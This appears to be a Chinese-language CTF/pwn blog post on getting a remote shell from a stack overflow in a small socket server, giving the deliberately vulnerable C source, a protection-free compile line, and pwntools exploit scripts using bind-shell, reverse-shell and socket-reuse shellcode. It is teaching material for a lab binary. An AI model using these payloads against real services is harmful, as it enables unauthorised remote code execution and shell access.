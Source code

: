 ```yaml
---
title: Getshell远程：真·RCE 正连？反连？不连？ 
date: 2020-12-13 00:00:03
categories:
- CTF/Pwn
tags: Getshell
---
```


> 真实的网络程序和Pwn题目中把输入输出映射到网络端口，二者程序本体的交互接口显然是不同的，后一种的CTF题目，真的具有现实意义么？如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？如果不能，我如何才能Getshell呢？本篇我们通过一个例题回答上述问题。

## socket

> 一句话理解：socket是API，背后实现了TCP/IP协议栈

- [Socket API](https://www.jianshu.com/p/0daaa67dfa29)
- [一文让你透彻理解Linux的SOCKET编程（含实例解析）](https://zhuanlan.zhihu.com/p/180556309)
- [sockaddr和sockaddr_in详解](https://blog.csdn.net/qingzhuyuxian/article/details/79736821)
- [Socket为什么要翻译成套接字？](https://www.zhihu.com/question/21383903)
- [Beej's Guide to Network Programming](https://beej.us/guide/bgnet/)
- [Beej's Guide to Network Programming 翻译](https://github.com/y11022053/Beej-s-Guide_Network_Programming_Chinese_Edition/blob/master/bgnet_cn_michael.txt)
- [Beej's Guide to Network Programming 正体中文版](https://beej-zhtw-gitbook.netdpi.net/)

## 例题

一个简单的栈溢出，不过输入接口是程序自身的启动的网络接口（tcp:8888）

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main (int argc, char **argv)
{
  int  s,c,j  =  0xe4ff;
  char buf[10];
  
  struct sockaddr_in server; 
  server.sin_family      = AF_INET;
  server.sin_addr.s_addr = INADDR_ANY;
  server.sin_port        = htons(8888);

  s = socket(AF_INET,SOCK_STREAM,0);
      bind  (s,(struct sockaddr *)&server,sizeof(server));
      listen(s,10);
  c = accept(s,NULL,NULL);
      read  (c,buf,1000);

  return 0;
}
```

关闭所有保护编译：

```c
➜  gcc main.c -fno-stack-protector -z execstack -no-pie -o main
```

特意预留了0xe4ff这个变量，小端存储对应的机器码就是`jmp rsp`：

```python
>>> from pwn import *
>>> context(arch='amd64')
>>> disasm('\xff\xe4')
'   0:   ff e4          jmp    rsp'
```

找到编译后这个gadget的地址，即可写利用了：

```python
➜  ROPgadget --binary ./main | grep "jmp rsp"
0x0000000000400698 : jmp rsp
```

### 本地

在常见的CTF题目中我们

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.sh())
io.send('a'*40+p64(0x400698)+shellcode)
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/1.png)

### 正连

```python
from pwn import *
context(arch='amd64',os='linux')

io = remote("127.0.0.1",8888)
sc = asm(shellcraft.bindsh(4444))
io.send('a'*40+p64(0x400698)+sc)

sh = remote("127.0.0.1",4444)
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/2.png)

### 反连

- [Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)
- [Linux反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
- [Linux下几种常见的反弹shell方式](https://www.jianshu.com/p/9456473a0a14)


```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)
io = remote("127.0.0.1",8888)
shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
io.send('a'*40+p64(0x400698)+shellcode)

sh.wait_for_connection()
sh.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/3.png)

### 不连

> 其实并不可能不连，你要远程攻击他，那必定得有数据通路，这里其实是连接复用。

- [远程漏洞利用：无需借助套接字的Shellcode](https://www.anquanke.com/post/id/85306)
- [X-NUCA 2020 Final 团队赛：QMIPS](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/11/xnuca/)

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.dupsh(4))
shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/shell/4.png)

### 总结

```python
from pwn import *
context(arch='amd64',os='linux')
io = remote("127.0.0.1",8888)
#shellcode = asm(shellcraft.sh())
#shellcode = asm(shellcraft.amd64.linux.bindsh(4444))
#shellcode = asm(shellcraft.connect('127.0.0.1',4444)+shellcraft.dupsh())
#shellcode = asm(shellcraft.dupsh(4))
#shellcode = asm(shellcraft.findpeersh(io.lport))
io.send('a'*40+p64(0x400698)+shellcode)
io.interactive()
```

## 回答

- 问：如果是真的网络程序，我控制流劫持后直接执行system("/bin/sh")可以拿到shell么？
- 答：不能在远程拿到shell。

- 问：以上情节，如何远程Getshell呢？
- 答：正连、反连、不连。

- 问：把标准输入输出映射到网络端口的CTF题目，真的具有现实意义么？
- 答：有，其实就是换个shellcode的事。

